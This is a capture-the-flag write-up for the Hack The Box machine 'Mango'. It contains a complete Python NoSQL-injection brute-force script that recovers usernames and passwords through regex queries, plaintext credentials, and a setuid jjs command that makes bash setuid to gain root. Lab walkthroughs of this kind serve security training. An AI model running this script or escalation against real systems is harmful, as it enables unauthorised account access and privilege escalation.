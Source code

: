 # Mango
>Author : Xyan1d3
>Date : 16th July 2021
>IP : 10.10.10.162
>OS : Linux
>Difficulty : Medium
# Initial Enumeration
## Nmap
```sql
# Nmap 7.91 scan initiated Fri Jul 16 23:19:55 2021 as: nmap -sC -sV -v -oN nmap/mango 10.10.10.162
Nmap scan report for 10.10.10.162
Host is up (0.086s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
|   256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
|_  256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: 403 Forbidden
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Mango | Search Base
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Issuer: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2019-09-27T14:21:19
| Not valid after:  2020-09-26T14:21:19
| MD5:   b797 d14d 485f eac3 5cc6 2fed bb7a 2ce6
|_SHA-1: b329 9eca 2892 af1b 5895 053b f30e 861f 1c03 db95
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## Web Enumeration
The page `http` page gives us a `403 Forbidden`.
But, The `https` site presents us with an self signed SSL Certificate which leaks a domain name.
![[Pasted image 20210716232146.png]]

We add those entries on our `/etc/hosts` file.

We have some credentials but it does not work.
```python
┌─[Magisk@Xyan1d3]─[10.10.14.7]─[~/htb/mango/nosqli]
└──╼ # python3 nosqli.py 
[+] Username Length : 5

[*] Trying admin
[+] Password Length : 12

[*] Trying t9KcS3>!0B#2
```

So, We may try some other username by blacklisting the `a` character in the 1st username bruteforce.
###  NoSQLi script
```python
import requests
import string
from icecream import ic
import sys


url = "http://staging-order.mango.htb/"
proxies={}
headers = {"Content-Type": "application/x-www-form-urlencoded"}

def creds_length(*args):
    global req
    req = requests.session()
    req.get(url)
    for i in range(100):
        if len(args) == 0:
            data = "username[$regex]=^.{" + str(i) + "}$&password[$ne]=toto&login=login"
        elif len(args) == 1:
            data = "username[$regex]=^" + args[0] + "$&password[$regex]=^.{" + str(i) + "}$&login=login"
        op = req.post(url=url,proxies=proxies,data=data,headers=headers,allow_redirects=False)
        if op.status_code == 302 and len(args) == 0:
            print(f"[+] Username Length : {i}\n")
            return i
        elif op.status_code == 302 and len(args) == 1:
            print(f"[+] Password Length : {i}\n")
            return i

def bruteforce(ulen,*args):
    store = ""
    charlist = "mangoh3mXK8RhU~f{]f" +"!@#$%^()-=_+`~\{\}[]\<>,/:\";\'`" + string.ascii_letters + string.digits #string.punctuation.replace("&" , "").replace("*" , "")
    while len(store)!= ulen:
        old_len = len(store)
        for each in charlist:
            if len(args) == 0:
                if len(store) == 0 and each == "a":
                    continue
                data = "username[$regex]=^" + store + each + "&password[$ne]=toto&login=login"
            if len(args) == 1:
                data = "username[$regex]=^" + args[0] + "&password[$regex]=^"+ store + each +"&login=login"
            sys.stdout.write(f"\r[*] Trying {store+each}")
            sys.stdout.flush()
            op = req.post(url=url,proxies=proxies,data=data,headers=headers,allow_redirects=False)
            if op.status_code == 302:
                store += each
                break
        if len(store) == old_len:
            print("\n[-] Fucked Up")
    print()

if __name__ == '__main__':
    ulen = creds_length()
    bruteforce(ulen)
    bruteforce(creds_length("mango"),"mango")

    # !@#$%^()-=_+`~{}|[]\<>?,./:";'`
    # 

```

We get the other credential.
```python
┌─[Magisk@Xyan1d3]─[17.17.17.9]─[~/htb/mango]
└──╼ # python3 nosqli/nosqli.py 
[+] Username Length : 5

[*] Trying mango
[+] Password Length : 16

[*] Trying h3mXK8RhU~f{]f5H
```

## Credentials
|Username|Password|
|--|--|
|admin|`t9KcS3>!0B#2`|
|mango|`h3mXK8RhU~f{]f5H`|

# Initial FootHold as mango
We could now `SSH` into the box using the credentials `mango` and `h3mXK8RhU~f{]f5H`.
![[Pasted image 20210717121222.png]]

```python
Last login: Fri Jul 16 21:44:55 2021 from 10.10.14.7
mango@mango:~$ id
uid=1000(mango) gid=1000(mango) groups=1000(mango)
mango@mango:~$ whoami
mango
```

# User Escalation as admin
We use the credentials of the `admin` user and `su` into the box.
```python
mango@mango:~$ su - admin
Password: 
$ bash -i
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

admin@mango:/home/admin$ id
uid=4000000000(admin) gid=1001(admin) groups=1001(admin)
admin@mango:/home/admin$ whoami
admin
```

## Getting the user Flag
```python
admin@mango:/home/admin$ ls -l
total 4
-r-------- 1 admin admin 33 Jul 16 17:42 user.txt
admin@mango:/home/admin$ cat user.txt 
a671b91e255d0e9baaee53e8b44a1535
```

# Root Escalation
We check for all the `setuid` binaries on the box and find out that we have a `jjs` binary which has the `setuid` capability.
```python
admin@mango:/home/admin$ find / -perm /4000 2> /dev/null

*** SNIP ***

/usr/lib/jvm/java-11-openjdk-amd64/bin/jjs

*** SNIP ***
```

We could abuse the `setuid` capability and get escalated to `root`.
```python
admin@mango:/home/admin$ echo "Java.type('java.lang.Runtime').getRuntime().exec('chmod +s /bin/bash').waitFor()" | jjs
Warning: The jjs tool is planned to be removed from a future JDK release
jjs> Java.type('java.lang.Runtime').getRuntime().exec('chmod +s /bin/bash').waitFor()
0
jjs> admin@mango:/home/admin$ bash -p
bash-4.4# id
uid=4000000000(admin) gid=1001(admin) euid=0(root) egid=0(root) groups=0(root),1001(admin)
bash-4.4# whoami
root
```

## Getting the root Flag
```python
bash-4.4# cd /root/
bash-4.4# ls -l
total 4
-r-------- 1 root root 33 Jul 16 17:42 root.txt
bash-4.4# cat root.txt 
a3355880ed3c681aeab23746c60ddba5
```